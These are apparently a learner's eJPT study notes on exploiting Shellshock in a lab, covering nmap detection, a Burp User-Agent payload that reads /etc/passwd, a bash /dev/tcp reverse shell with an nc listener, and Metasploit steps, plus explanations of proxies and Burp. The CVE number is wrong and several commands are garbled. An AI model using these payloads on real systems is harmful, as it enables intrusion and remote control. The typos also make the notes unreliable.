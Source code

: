 # Exploiting Bash CVE-2012-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities\
[--script=http-shellshock](https://github.com/itr-a/eJTP-Learning/blob/f35580191317792f0cee361f7e7910c405182f4d/Tools/Nmap.md#53)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
Select BurpSuit on FoxyProxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab\
-> Click **Forward**\
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```
---
#### 📓 Note
`FoxyProxy`\
What is **Proxy**?\
A proxy server is like a **middleman between you and the internet**.\
Why use Proxy?
|Purpose|Explanation|
|---|---|
|Hide IP|Site sees the proxy's IP instead
|Bypass restrictions|Access content blocked in the region|
|Filter traffic|seful in companies or schools to block certain sites|
|Debug/Intercept|Tools like Burp Suit use proxy capture your browser traffic|


Example
- Want to visit most sites normally
- BUT want all traffic to a website to go through Burp Suit so can analyze requests


Proxy vs VPN
|Term|What is hides|Encryption|
|---|---|---|
|Proxy|Only browser/app traffic|No encryption(unless HTTPS)|
|VPN|All network traffic|usually encrypted|

Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the BurpSuit

`Burp Suit`\
An intercepting proxy tool that let you analyze, manipulate and reply web traffic.\
Used in **bug bounty**, CTFs and real-world pentesting.\
What you can do with Burp Suite
|Feature|Purpose|
|---|---|
|Proxy| Intercept/modify browser ↔ server traffic|
|Repeater|Manual request editing & replay|
|Intruder|Brute-force/fuzzing|
|Scanner|Auto find vulns|
|Decoder|Encode/decode data|
|Extensions|Add custom scripts/tools|
<br>
<br>

`reverse shell`\
A reverse shell is when the *target system* connects back to *you* and
gives you **remote command-line access**.
```bash
Attacker (YOU: 10.0.0.1)               Victim (10.0.0.22)
┌────────────────────┐                ┌────────────────────────┐
│ nc -lvnp 4444      │ <──── Connect ─┤ bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
│ (listening shell)  │                │  (reverse shell script)│
└────────────────────┘                └────────────────────────┘
```
#39\
```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```
|Part|What it means|
|---|---|
|`bash`|Call **Bash Shell**|
|`-i`|Runs it in **interactive mode**<br>You can type commands and get resposes
|`>&`|Redirect **stdout(1)**and **stderr(2)** to a new location
|`/dev/tcp/<IP>/<listening port>`|A **special file** in Bash that lets you open a TCP connection to an IP and port.
|`0>&1`|Redirects **stdin(0)** to the same place as **stdout**<br>-> Everything flows through the same TCP socket
